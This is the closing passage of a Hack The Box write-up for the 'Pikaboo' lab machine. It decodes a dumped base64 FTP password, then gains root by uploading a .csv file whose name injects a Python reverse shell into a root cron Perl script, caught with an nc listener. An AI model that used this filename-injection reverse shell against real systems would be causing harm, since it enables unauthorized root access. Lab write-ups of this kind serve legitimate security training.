 We see the pwnmeow user gets dumped along with looks to be a base64 encoded password:
```
[/home/gn0stic/htb/tools/bin] λ echo -n "X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==" |base64 -d 
_G0tT4_C4tcH_'3m_4lL!_%
```

## Root

Keeping with the poki / poke theme, we get pwnmeow's password. I tried to ssh in as pwnmeow using that password but it didn't work. However, loging in to the FTP server with the credentials does work.

The way the perl script works is that our payload needs to be the actual filename, not the contents of the file. So I made the filename a python reverse shell that will connect back to us:
```
ls
'|python -c '\''import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.51",9005));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("bash")'\'';.csv'
```

Note, the cron job also only executes against files that end in .csv. Now, first we need to start up a nc listener to catch the shell, then we upload this file via ftp using pwnmeow's credentials and wait for the perl script to run as root via the cronjob we found:
```
[/home/gn0stic/htb/pikaboo] λ nc -lvp 9005
listening on [any] 9005 ...
connect to [10.10.14.51] from pikaboo.htb [10.129.247.66] 56702
root@pikaboo:/srv/ftp/versions# whoami
whoami
root
root@pikaboo:/srv/ftp/versions# cat /root/root.txt
cat /root/root.txt
546135ae9700af11bf--truncated--
```

All works according to plan, we get a reverse shell as the root user and are able to access the root flag. The box is fully compromised.

[1]: https://app.hackthebox.com/users/157669
[2]: https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/
[3]: https://book.hacktricks.xyz/pentesting/pentesting-web/nginx
[4]: https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=88890543
[5]: https://www.hackthebox.eu